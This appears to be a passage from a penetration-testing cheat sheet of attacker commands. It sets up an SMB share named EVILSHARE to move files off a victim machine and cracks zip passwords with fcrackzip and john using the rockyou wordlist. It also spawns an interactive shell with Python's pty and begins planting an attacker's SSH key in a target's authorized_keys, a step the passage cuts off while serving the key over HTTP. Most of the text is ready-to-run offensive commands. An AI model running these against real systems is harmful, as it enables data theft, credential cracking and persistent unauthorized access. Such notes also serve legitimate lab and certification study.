 ### Transfer file using shares

Attacker:

```bash
python3 smbserver.py EVILSHARE /home/kali/experiment
```

Victim:

```bash
copy \\ip-addr\share-name\file out-file
```

If not working, use the **-smb2support** option or use samba.

[https://ubuntu.com/server/docs/samba-file-server](https://ubuntu.com/server/docs/samba-file-server)

### Zip file password cracking

fcrackzip

```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt secret_files.zip
```

john

```bash
zip2john secret.zip > hash.txt
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### Python TTY Shell Spawn

```powershell
python -c "import pty; pty.spawn('/bin/bash');"
```

```bash
python3 -c "import pty; pty.spawn('/bin/bash');"
```

### Shell upgrade using SSH

1. On attacking machine, generate SSH key pair

```bash
ssh-keygen -t rsa -N '' -f /home/kali/.ssh/id_rsa
```

1. Copy public SSH key to the target and save it as /home/<target_user>/.ssh/authorized_keys

attacking machine:

```bash
cd .ssh
python3 -m http.server 80 
```
